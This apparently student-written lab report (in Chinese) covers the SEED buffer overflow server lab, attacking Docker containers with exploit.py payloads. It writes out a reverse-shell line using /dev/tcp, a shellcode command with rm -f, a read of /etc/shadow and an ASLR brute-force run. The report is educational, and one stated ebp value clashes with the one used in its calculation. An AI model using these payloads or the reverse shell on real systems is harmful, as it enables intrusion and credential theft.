#实验二：Buffer Overflow Attack Lab (Server Version)

## Table of Contents
- [Table of Contents](#table-of-contents)
- [1 Overview](#1-overview)
- [2 Lab Environment Setup](#2-lab-environment-setup)
- [3 Task 1: Get Familiar with the Shellcode](#3-task-1-get-familiar-with-the-shellcode)
- [4 Task 2: Level-1 Attack](#4-task-2-level-1-attack)
- [5 Task 3: Level-2 Attack](#5-task-3-level-2-attack)
- [6 Task 4: Level-3 Attack](#6-task-4-level-3-attack)
- [7 Task 5: Level-4 Attack](#7-task-5-level-4-attack)
- [8 Task 6: Experimenting with the Address Randomization](#8-task-6-experimenting-with-the-address-randomization)
- [9 Tasks 7: Experimenting with Other Countermeasures](#9-tasks-7-experimenting-with-other-countermeasures)

## 1 Overview

## 2 Lab Environment Setup

关闭地址随机化的保护机制，以保证后续攻击成功进行：

```bash
sudo /sbin/sysctl -w kernel.randomize_va_space=0
```

编译 `stack.c`：

```bash
cd ./server-code/
make && make install
```

在新的 shell 中创建并启动 docker 容器：

```bash
dcbuild
dcup
```




## 3 Task 1: Get Familiar with the Shellcode

修改 `shellcode/shellcode_32.py` 中的命令为：

```python
"/bin/ls -l; echo Hello 32; /bin/rm -f testfile            *"
```

创建测试文件 `testfile`，并对 32、64 位的两个程序进行编译，之后运行：

```bash
touch testfile
ls
./shellcode_32.py
./shellcode_64.py
make
a32.out
a64.out
```



可以看到 `a32.out` 在打印了 `Hello 32` 后，执行了我们后添加的 `rm -f testfile` 命令删除了 `testfile`。

## 4 Task 2: Level-1 Attack

首先获取 32 位服务器的 buffer 情况：

```bash
echo hello | nc 10.9.0.5 9090
```



可以看到基址指针 ebp 为 0xffffd028，buffer 的起始地址为 xffffcfb8。

接下来修改攻击代码 `exploit.py`，将 `start` 值修改为 `517 - len(shellcode)`；`ret` 修改为 ebp 再加 8 个字节，即 `0xffffd2c8 + 8`；`offset` 修改为 ebp 和起始地址的差值加 4，即 `0xffffd2c8 - 0xffffd258 + 4 = 116`。



运行代码，生成 `badfile` 文件，将其发送到服务器：

```bash
./exploit.py
ls
cat badfile | nc 10.9.0.5 9090
```





可以看到在 docker 容器中执行了 shellcode 中的命令，列出了当前目录下的文件以及打印了 `Hello 32`。

修改 `exploit.py` 中 shellcode 的命令为，实现反弹 shell：

```python
"/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1           *"
```

在新的 shell 中监听 9090 端口：

```bash
nc -lnv 9090
```

运行攻击代码，生成 `badfile` 文件，将其发送到服务器：

```bash
./exploit.py
cat badfile | nc 10.9.0.5 9090
```



可以看到在监听的 shell 中成功反弹了服务器的 shell。

在反弹 shell 中输入命令 `cat /etc/shadow`，可以看到内容如下：



## 5 Task 3: Level-2 Attack

通过同样的方法获取服务器 2 的 buffer 地址为 `0xffffd408`：

```bash
echo hello | nc 10.9.0.6 9090
```



修改 `exploit.py` 中的 `ret` 为 `0xffffd408 + 308`，以及修改 content 的内容为从 100 到 300 每隔 4 个字节的地址，即：



运行，监听 9090 端口，发送 `badfile` 文件：

```bash
./exploit.py
nc -lnv 9090
cat badfile | nc 10.9.0.6 9090
```

再次成功得到了服务器的 shell：



## 6 Task 4: Level-3 Attack

```bash
echo hello | nc 10.9.0.7 9090
```



得到了 64 位服务器的上下边界分别为 `0x00007fffffffe580` 和 `0x00007fffffffe4b0`。修改攻击代码 `exploit.py`，将 `start` 值修改为 0；`ret` 修改为 `0x00007fffffffe4b0`；`offset` 修改为 `0x00007fffffffe580 - 0x00007fffffffe4b0 + 8 = 216`。且 shellcode 也应该修改为 64 位的：



```bash
./exploit.py
nc -lnv 9090
cat badfile | nc 10.9.0.7 9090
```



成功得到了服务器的 shell。

## 7 Task 5: Level-4 Attack

```bash
echo hello | nc 10.9.0.8 9090
```



可以看到 buffer 空间只有 96 字节，无法放下 shellcode，将 `exploit.py` 中的 `start` 修改为 `517 - len(shellcode)`；`ret` 修改为 `0x00007fffffffe580`；`offset` 修改为差值加 8，即 104：



```bash
./exploit.py
nc -lnv 9090
cat badfile | nc 10.9.0.8 9090
```



## 8 Task 6: Experimenting with the Address Randomization

打开前面已经关闭的地址随机化的保护机制：

```bash
sudo /sbin/sysctl -w kernel.randomize_va_space=2
```

多次向服务器发送 `hello`，可以看到每次的地址都不一样：



将 `exploit.py` 修改为 32 位的版本，包括 shellcode 和 content，`ret` 修改为 `0xffb12108 + 8`；`offset` 修改为 `0xffb12108 - 0xffb12098 + 4 = 116`：



开启监听后，生成 `badfile` 文件，使用 `bruteforce.sh` 脚本不断发送尝试破解：

```bash
nc -lnv 9090
./exploit.py
./bruteforce.sh
```

最终在 25981 次尝试后得到了服务器的 shell，耗时约 1 分钟：





## 9 Tasks 7: Experimenting with Other Countermeasures

关闭 docker 容器，重新编译 `stack.c`，但没有启用 `StackGuard` 保护机制。将 `badfile` 复制到 `server-code` 目录下，运行 `stack-L1`，

```bash
cd ./server-code/
gcc -DUF_SIZE=100 -DSHOW_FP -z execstack -static -m32 -o stack-L1 stack.c
cp ../badfile ./
./stack-L1 < badfile
```

可以看到检测到了 buffer overflow，从而终止了程序：



重新编译 `shellcode/call_shellcode.c`，但不加 `-z execstack` 选项：

```bash
cd ../shellcode/
gcc -m32 -o a32.out call_shellcode.c
gcc -o a64.out call_shellcode.c
```

运行 `a32.out` 和 `a64.out`，可以看到都报错 `Segmentation fault`，也就是没有执行在栈中的 shellcode：


